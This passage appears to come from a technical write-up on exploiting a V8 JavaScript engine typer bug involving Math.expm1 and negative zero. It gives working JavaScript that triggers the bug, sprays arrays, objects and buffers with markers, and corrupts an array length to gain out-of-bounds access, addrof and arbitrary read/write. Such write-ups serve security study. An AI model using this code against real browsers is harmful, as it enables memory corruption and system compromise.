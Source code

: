 We use the typing bug to corrupt the OOB array's length via the origin OOB.
After that, we're home free: the OOB array now gives us OOB accesses to the other objects whenever we want.
This construction exploits the bug only once, which is desirable since it is not easy to code around it.
The OOB array will be the only array of length 2, which allows us to find its location dynamically by scanning the memory for the value 2 using the origin OOB.
This is more reliable than using fixed offsets, and can tolerate some variation in heap layout.
Note that the length 2 is present both in the JSArray and in the FixedArray, but we're interested in finding and corrupting the JSArray's length.
The elements of the OOB array (0.4 and 0.5) will act as markers to distinguish between the JSArray and the backing FixedArray.

Once the OOB array is corrupted, we build addrof through OOB to the victim object, and arbitrary read/write through OOB to the victim buffer, by changing its backing pointer to the desired address.
The objects have markers in them: an inline property with value 0x41414141 in the victim object, and a size of 0x41 in the victim buffer.
This way, we can locate them by scanning memory for those markers through reads from the OOB array.

Let's implement this.
We'll use three global arrays (`arrs`, `objs`, and `bufs`) to store sprayed instances.
To handle 64-bit integers, I will use the utilities from [this exploit](https://gist.github.com/saelo/52985fe415ca576c94fc3f1975dbe837) by Samuel Groß.

The function starts as usual, by triggering the typer bug:

```javascript
let o = {mz: -0};
let b = Object.is(Math.expm1(x), o.mz);
```

Then we allocate the objects, and save them to the global arrays:

```javascript
let a = [0.1, 0.2, 0.3, 0.4]; // origin array
arrs.push([0.4, 0.5]); // OOB array
objs.push({marker: 0x41414141, obj: {}}); // victim object
bufs.push(new ArrayBuffer(0x41)); // victim buffer
```

Now we can search for the OOB array, corrupt the JSArray's length, and we're done: 

```javascript
let new_size = (new Int64("7fffffff00000000")).asDouble()
for (let i = 4; i < 20; i++) {
    let val = a[b*i];
    let is_backing = a[b*(i+1)] === 0.4;
    let orig_size = Int64.fromDouble(val).toString();
    let good = (orig_size === "0x0000000200000000" && !is_backing);
    a[b*i*good] = new_size;
    if (good)
        break;
}
```

Let's look at this in detail.
As I said before, I couldn't get it to take a flag to do the corruption only on the final -0 call, so it's structured in a way that will be harmless during the optimization loop.
However, it will waste cycles, so I lowered the loop iterations to 10k (still enough to optimize) to keep it from getting too slow.
